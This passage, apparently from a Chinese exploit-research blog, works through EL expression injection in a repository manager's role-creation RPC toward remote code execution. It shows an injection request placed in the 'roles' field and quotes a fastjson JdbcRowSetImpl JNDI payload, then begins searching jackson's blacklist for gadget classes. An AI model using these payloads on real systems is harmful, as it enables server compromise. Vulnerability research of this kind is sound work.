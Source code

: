 

**invoke 可变参数** ` invoke(Object obj, Object... args) ` 这里显然完全不可用

只看使用 `newInstance()` 无参构造出一个 类实例

- 尝试反射 newInstance 创建javax.script.ScriptEngineManager 脚本引擎

  ```json
  {"action":"coreui_Role","method":"create","data":[{"version":"","source":"default","id":"11","name":"1111","description":"1","privileges":[],"roles":["${''.class.forName('javax.script.ScriptEngineManager')}"]}],"type":"rpc","tid":19}
  ```

  

  可惜报错找不到 class java.lang.ClassNotFoundException: javax.script.ScriptEngineManager  not found by javax.el-api [93]

​	![jsengnotfound](/styles/images/2020-07/jsengnotfound.png)



目前两条路都断了。。。



##### 柳暗花明



首先目前el 2.1 表达式可以实现的功能:

- newInstance() 无参构造一个类实例
- 调用对象 非可变参数的方法



**仔细想想是不是有点像 java 反序列化的利用链，java 反序列 利用大多是通过创建一个类，在类的构造函数 setter  getter 方法里做文章**

比如 fastjson 的payload `{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://localhost:1099/Exploit"," "autoCommit":true}`

这里就是创建了一个com.sun.rowset.JdbcRowSetImpl 的对象，依次调用 setDataSourceName 和 setAutoCommit 方法触发lookup jndi，导致rce



el 表达式除了只能无参构造类对象外, 能执行的方法可是比反序列更多，理论上大部分反序列的利用链都可以直接使用。

<u>这里最初想直接调用 javax.naming.InitialContext lookup   利用 jndi 的 ，可惜也是 java.lang.ClassNotFoundException</u>

现在寻找rce的路径就变成了，找到一个可用的恶意类，调用触发方法。

- 寻找 恶意类

  jackson 代码里的恶意 class

  (这里本来想找fastjson 的恶意利用链，可惜fastjson 代码没有明示黑名单,而且黑名单有些没有定位到具体的类，找起来有点麻烦，放弃)

  > https://github.com/FasterXML/jackson-databind/blob/master/src/main/java/com/fasterxml/jackson/databind/jsontype/impl/SubTypeValidator.java
